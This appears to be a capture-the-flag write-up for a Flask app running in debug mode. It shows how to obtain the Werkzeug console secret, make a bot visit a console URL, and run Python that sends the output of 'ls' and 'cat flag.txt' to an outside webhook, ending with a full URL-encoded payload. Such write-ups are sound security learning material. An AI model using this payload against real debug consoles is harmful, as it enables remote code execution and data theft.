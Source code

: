 realize the app is running on debug mode

get the value of SECRET from /console (SECRET = "")

make the bot visit `http://localhost:5000/console?__debugger__=yes&cmd=<CMD>&frm=0&s=<SECRET>`

1. `import os; import requests`
2. `requests.get(<webhook>+'?'+os.popen('ls').read())`
3. `requests.get(<webhook>+'?'+os.popen('cat flag.txt').read())`

> Remember to url encode. 

> It's helpful to run the container locally and inspect what goes on when you run Python in the console. Try to
> simulate the exact same request on the bot to achieve your RCE.

Final payload: http://localhost:5000/console?__debugger__=yes&cmd=requests.get%28%27https%3A%2F%2Fwebhook.site%2Fcc5844d4-2607-4150-a042-d3ed94253d72%3F%27%2Bos.popen%28%27cat%20flag.txt%27%29.read%28%29%29&frm=0&s=<secret>
